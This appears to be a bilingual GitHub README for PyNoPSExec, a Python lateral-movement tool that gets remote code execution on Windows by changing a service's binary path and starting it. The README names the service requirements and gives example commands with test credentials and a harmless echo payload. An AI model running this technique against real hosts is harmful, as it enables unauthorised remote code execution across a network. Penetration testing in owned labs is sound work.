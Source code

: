 # PyNoPSExec
**A Lateral Movement Tool Learned From SharpNoPSExec  --  Twitter: @juliourena  根据@juliourena大神的SharpNOPsExec项目改写的横向移动工具** 
+ Platform(平台): Windows 10
+ Language(语言): Python2
## 原理简介
** 通过修改服务启动的二进制文件路径，然后启动服务来执行，对服务的要求是：**
+ 没有运行的手动启动或禁止启动的服务
+ 服务没有依赖项
+ 该脚本没有提供服务二进制文件路径恢复功能，需要先记好对应路径，然后可以再次运行该脚本进行恢复，避免服务出问题
## 使用方法

```bash
net use \\192.168.23.107 "TestPassword@123" /user:testuser
python PyNoPSexec.py  -t 192.168.23.107 -u testuser -p "TestPassword@123" -d test.sec.com -s AppMgmt -e "c:\\windows\\system32\\cmd.exe /c echo hackedbybobac > c:\\bobac.txt"
```
![image](https://user-images.githubusercontent.com/11972644/117527553-82264700-afff-11eb-9850-45ecbd997f98.png)
![image](https://user-images.githubusercontent.com/11972644/117527633-0bd61480-b000-11eb-955e-d8310d463090.png)


